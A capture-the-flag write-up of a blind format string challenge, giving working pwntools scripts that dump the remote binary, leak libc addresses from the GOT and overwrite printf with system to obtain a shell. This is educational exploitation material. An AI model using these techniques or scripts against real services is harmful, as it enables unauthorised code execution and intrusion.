


# WRITEUP BLACK ECHO (blind format string)

## __Author:__ bytevsbyte @ beerpwn team

There wasn't any executable to download, just a service running on the server.\
When I tried to connect with netcat and send some bytes, the server replied echoing my input.\
Then I sent some "%p" to check if it was a format string vulnerability.
It returned some pointer in hexadecimal and I was sure
it was a format string.. a blind format string!!

## DUMP THE EXECUTABLE

The idea was to steal a big part of the executable to find interesting stuff and addresses.
I used the "%s" in the format string to print out some bytes
from memory starting at a specific address.
The printf evaluate the string and when it finds the first %s
it takes the pointer after the format string (is 32 bits, so it's on the stack).\
Find exactly the location of the target argument (address that the %s refers to)
it's a bit tricky and using directly the %s it's a pain.
It's easier trying first without the %s,
with something like "AAAA %p %p %p %p...",
counting how many __characters__/__bytes__ come first
the 0x41414141 in the output, that is the right offset to reach the AAAA
(a future memory address).\
To verify the offset can be used also the %OFFSET$p (where OFFSET is a number).



There is only one problem if the pointer is at the start of a format string,
the NULL byte (0x00).
The printf quit after a NULL byte and it won't trigger the last part of the format string.
So I changed a bit the layout moving the "AAAA" to the end after the %p
and fixing the offset value (yes it changes).

Finally I could replace the AAAA with a real interesting address as a
starting point to access the code section memory.
The starting address is fixed, stored into the ELF header
and it doesn't changed at loading time because
it wasn't compiled with the PIE option.\
A correct address can be found with a quick search on internet about
_"entry point address"_ or looking at an other 32-bit ELF with
__`readelf -h EXECUTABLE`__.\
Then the address could be incremented in a loop by the number
of useful bytes received from the server.

```(python)
#!/usr/bin/python
#-*- coding: utf-8 -*-

from pwn import *

s = remote('chall.2019.redpwn.net', 4007)
start = 0x08048000
addr = start
binfile = ''
while addr < (start + 4096):
    if '0a' in hex(addr):
        addr += 1
        binfile += '\x00'
    try:
        print('[+] %s:' % hex(addr))
        s.sendline('AA.%10$s.BB' + '\x00' + p32(addr))
        data = s.recv(128)
        data = data[data.find('AA.')+3:data.find('.BB')]
        binfile += data + '\x00'
        addr += len(data) + 1
    except Exception as e:
        print('[-] Exception: ' + str(e))
        with open('binfile', 'w') as f:
            f.write(binfile)
        s.close()
        s = remote('chall.2019.redpwn.net', 4007)
s.close()
with open('binfile', 'w') as f:
    f.write(binfile)
```

In the loop I just skipped the addresses with "\n" because the input
function (fgets) use it to finish reading the buffer.
The script stops after 4 KiloBytes.. I checked that I received something
useful running __`file binfile`__ that printed
_`"ELF 32-bit LSB executable, Intel 80386"`_. Great!\
The binary file it's not perfect (due to the addresses skipped containing 0x0a) but this is not a problem, with a bit of fortune
when some stuff is missing,
you don't have to execute it but just do some static
analysis, like looking for address and understanding the code layout.

## EXPLOIT
This executable it's quite easy to understand with a tool
like ghidra, hopper or r2. There aren't any buffer overflow, but there are always the printf in loop. The main instructions from the dump in
decompiled C (with ghidra):

```(c)
do {
    fgets(local_1014, 0x1000, *(FILE **)PTR_stdin_08049ff8);
    printf(local_1014);
} while( true );
```

I had to identify which libc the server use. I used the format string
in the same way as before, but using as target address
the GOT array of different functions (setbuf, printf and fgets).
With these addresses (last 12 bit) I identified the libc used
with the libc-database tool and after I found the address of libc.

```(bash)
~/libc-database# ./find setbuf 450 printf 020 fgets 620
ubuntu-xenial-amd64-libc6-i386 (id libc6-i386_2.23-0ubuntu10_amd64)
archive-glibc (id libc6-i386_2.23-0ubuntu11_amd64)
~/libc-database# ./dump libc6-i386_2.23-0ubuntu10_amd64 system
offset_system = 0x0003a940
```

My idea was to exploit this binary using the first round of format string
to get a leak of an address and bypass the ASLR.
Then, in the second round,
replace the pointer of the printf in the GOT with the system!\
The printf it's the perfect target in this case because it's used (bad)
with only one parameter that is the string read from the input,
and I didn't need to change the code flow.
Finally, at the last round of input I could pass a "/bin/sh" string
to the input and the code will call the system instead the printf,
passing it the string just read.

The final exploit:

```(python)
#!/usr/bin/python
#-*- coding: utf-8 -*-

import struct
from pwn import *

got_setbuf  = 0x804a00c
got_printf  = 0x804a010
got_fgets   = 0x804a014
offset_printf   = 0x49020
offset_system   = 0x3a940

# LEAK => setbuf(450) printf(020) fgets(620)
payload = 'AA.%10$s.BB' + '\x00' + p32(got_printf)
s = remote('chall.2019.redpwn.net', 4007)
s.sendline(payload)
data = s.recv(128)
data = data[data.find('AA.')+3:data.find('.BB')]
libc_base = struct.unpack("I", data[4:8])[0] - offset_printf
system = libc_base + offset_system
print('[+] libc base: ' + hex(libc_base))
print('[+]    system: ' + hex(system))

# EXPLOITATION
lw = system & 0x0000ffff
uw = (system & 0xffff0000) >> 16
fmtstr  = '%' + str(lw) + 'x'           # >6
fmtstr += '%14$hn'                      # >12
fmtstr += '%' + str(uw-lw) + 'x'        # >18
fmtstr += '%15$hn'                      # >24
fmtstr += '\x00' * (len(fmtstr) % 4)
s.sendline(fmtstr + p32(got_printf) + p32(got_printf+2))
data = s.recv(4096)
s.interactive()
s.send('////bin/sh')
s.close()
```

## Flag time



After I got the shell I took the source code file
that can be useful to recompile (_`gcc -m32 code.c -o bin`_) a working
executable and try it in local.
